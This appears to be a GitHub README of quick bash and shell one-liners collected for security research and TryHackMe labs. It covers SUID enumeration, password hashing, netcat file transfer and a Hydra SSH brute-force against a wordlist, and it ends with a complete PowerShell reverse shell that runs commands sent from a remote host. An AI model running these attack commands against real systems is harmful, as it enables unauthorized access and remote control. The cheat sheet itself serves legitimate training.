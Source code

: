 # Quick-and-Dirty-Bash-Scripting
I decided to start collecting all the quick and dirty bash scripts I have created / found on the web during Security Research

# General Syntax / Useful Commands

![image](https://github.com/user-attachments/assets/684e7a37-8646-4c7f-97a8-a70920166e85)

	• Available shells on the system look in 
	
	/etc/shells    

	• [important files] Users are located in 
	
	/etc/passwd
	
	• [less] System wide crontab
	
	Less /etc/crontab

	• Download all files from ftp Anonymous Login
	wget -m ftp://anonymous:anonymous@<ipaddress>
	
	• [CURL]
	[spoof username and follow all redirects] curl -A "username" -L 10.10.38.4
	
	• [FIND]
	
	[files and directories with user perms] find / -perm -u=s -type f 2>/dev/null
	
	[find all suid files] Find . -perm /4000 or find -perm /4000
	
	[find all files for a specific user ] find / -user <user>
	
	[Find all the SUID/SGID executables] find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
	
	From <https://tryhackme.com/room/linuxprivesc> 
	
	
	
	find - Initiates the "find" command
	
	/ - Searches the whole file system
	
	-perm - searches for files with specific permissions
	
	-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
	
	-type f - Only search for files
	
	2>/dev/null - Suppresses errors
	
	find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
	
	
	• [host http server] Setting up a simple web server in python3
	
	Python3  -m http.server 8000	Or whatever port you prefer 
	Python2 python -m SimpleHTTPServer 8000	

	• Download files from host with Netcat

	Receive on user machine -  nc -l -p 1234 > *file to receive*
	Send from host machine -   nc -w 3 10.2.8.75 1234 < *file to send*
	
	• [openssl] Creating a hash / compliant password hash
	
	 openssl passwd -1 -salt [salt] [password]
	
	• Convert HEX into ascii
	
	echo <hex value> | xxd -r -p
	
	
	• [Hydra] attack on for ssh on smtp server

	hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.164.218 ssh -vV
	
	• Secure Copy Protocol 

	scp [filename] [username]@[IP of remote machine ]:/[directory to upload to]

	• SHA1 hash of a file

	sha1sum file8 | awk '{print $1}'
	
	• Find nmap scripts
	
	find /usr/share/nmap/scripts -type f 2>/dev/null | grep (whatever it is you are looking for)
	
	• Stabilize reverse netcat shell with python

	Python3 -c 'import pty;pty.spawn("/bin/bash")'
	
	export TERM=xterm then background shell with Ctrl + Z then in our own terminal we use 
	
	stty raw -echo; fg 
	does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
	

	
	
	From <https://tryhackme.com/room/linuxstrengthtraining> 
	
	
	• Kibana-log
cat kibana-log.txt | grep -e http://0.0.0.0:[0-9][0-9][0-9][0-9] -o | sort -u
http://0.0.0.0:5601
http://0.0.0.0:9200

	• Windows Reverse shell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
